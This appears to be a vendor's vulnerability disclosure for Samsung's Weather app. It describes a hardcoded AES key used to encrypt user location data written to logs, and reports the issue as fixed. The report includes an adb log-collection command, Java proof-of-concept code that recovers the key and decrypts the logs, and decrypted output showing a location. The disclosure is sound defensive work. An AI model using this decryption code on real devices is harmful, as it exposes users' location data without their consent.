

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Weather</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.daemonapp</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.19</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.02.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$250</td>
    </tr>
</table>

# Description

Oversecured found a hardcoded AES key in the Weather app in the `com/samsung/android/weather/infrastructure/debug/SLog.java` file:


This AES key was used to encrypt sensitive data and then log it. These logs contained the user's location.

This and similar hardcoded keys create a false sense of security that the data is stored in a secure manner. Many developers think this adds another layer of security. In reality, it only reduces the level of security.

**Proof of Concept**

You must first collect the app logs:
```
adb logcat --pid=`adb shell pidof -s com.sec.android.daemonapp`
```

And then decrypt them using the following code that we created from the decompiled code of the Weather app:
```java
private static String cc;
private static String ps = "com.sec.everglades";

static {
    getDd("692591387DDB1143B8DAF26D16A62808E98B339503BF8A2AD4E9B99451A75C94BABE80A32B61DDDBB0F8619094B5E95A");
}

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    String encryptedLog = "C31701028A450D9B56DD771FCB96ED8B093092E146908A551D884FA566E66349256F4AFC748983F17AA0A06B72B38A5873508E368323A08DB91560A744AEA34F812EE850D5D4FFEEBE19CBDCBC9544FFF58AAEA585917F0125DCC50DF20EFB78BD3CA544666F163D247F3245AC99381EFBD4C1950F01B7BD82A4832A5C81F9E1916ACC2F682CEC702DD42B179D07C1D717764839983C80B0CDBDD92EFA5BDB8A0F31EB6EAB83CE83C8FF4E63A1F7075E7B9FC9DB522BFE33FC118F935636F3C14A7BB6E9CCAC430CBF226591067E9FAD7E9342115AFB41E6AF76AFBAB26FAF8717B238CC6FC8E65B0536D69FB815E3111998D420DC5446F9DAB26C25021B2C180CE03FCE45398968C281D20256D4B94FBC4B99A4A4453B3D4B36A4281DF34F3534A2B9DD8C92BC5288C74A2176289FCEFF7FEEA2440591D84E2D587A8633B7805902B10B219C5D5572C234C636642DD19BD0215FF3ECF6D76250BA487FE435283AF2685B749DB7C428FF625104E2DC2C6CBE38A0149155A68FE492BE3D97C2EFE565B37462B8533083624AB22CFB222F0CE7C23D4FC90A02F2B100B7BCE4F30750526215AEEBF8BA554F5942B06A6372988F8B31F06170A2D9928376EA455452ED4FD0D3FE4F5C41335011A948E7EA7C2E3371F1AA26C93E6BF18B28C530175047EB61425FD5858B454FA00BC7F615B467A016F5EA9E3D1032084F0798D54B4C9F141956773E92A80DE79BB87E1BCADB";
    Log.d("evil", "Dec: " + decrypt(encryptedLog));
}

private static void getDd(String str) {
    StringBuffer stringBuffer = new StringBuffer();
    stringBuffer.append(str);
    String stringBuffer2 = stringBuffer.reverse().toString();
    int length = ps.length();
    String substring = ps.substring(length - 16, length);
    try {
        cc = decodeKey(stringBuffer2, substring);
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}

private static String decodeKey(String data, String key) {
    try {
        int i = 16;
        byte[] bArr = new byte[16];
        byte[] bytes = key.getBytes("UTF-8");
        int length = bytes.length;
        if (length <= 16) {
            i = length;
        }
        System.arraycopy(bytes, 0, bArr, 0, i);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(2, new SecretKeySpec(bArr, "AES"), new IvParameterSpec(bArr));
        return new String(cipher.doFinal(toByte(data)), "UTF-8");
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}

private static byte[] toByte(String str) {
    int length = str.length() / 2;
    byte[] bArr = new byte[length];
    for (int i = 0; i < length; i++) {
        int i2 = i * 2;
        bArr[i] = Integer.valueOf(str.substring(i2, i2 + 2), 16).byteValue();
    }
    return bArr;
}

public static String decrypt(String str) {
    try {
        int i = 16;
        byte[] bArr = new byte[16];
        byte[] bytes = cc.getBytes("UTF-8");
        int length = bytes.length;
        if (length <= 16) {
            i = length;
        }
        System.arraycopy(bytes, 0, bArr, 0, i);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(2, new SecretKeySpec(bArr, "AES"), new IvParameterSpec(bArr));
        return new String(cipher.doFinal(toByte(str)));
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

The result of decrypting the logs:
```
09-19 01:48:22.360  2635  2635 D evil    : Dec: order = 0, key = c00549ec17f8e20dc85775e6aa8889471581b7a9ee9012406f0dd8a283acfc15 / c00549ec17f8e20dc85775e6aa8889471581b7a9ee9012406f0dd8a283acfc15, name = Kadıköy / Istanbul / Turkey, time = 1663518566000, dst = false, is day = 3, temp = 21.0, code = 33 / 0, high/low = 29.0 / 17.0, hourly =  idx = 0 - time = 1663520400000, code = 29 / 1, temp = 999.0 / 999.0  idx = 1 - time = 1663524000000, code = 29 / 1, temp = 999.0 / 999.0  idx = 2 - time = 1663527600000, code = 29 / 1, temp = 999.0 / 999.0  idx = 3 - 
```

## References

- [Oversecured Blog. Use cryptography in mobile apps the right way](https://blog.oversecured.com/Use-cryptography-in-mobile-apps-the-right-way/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.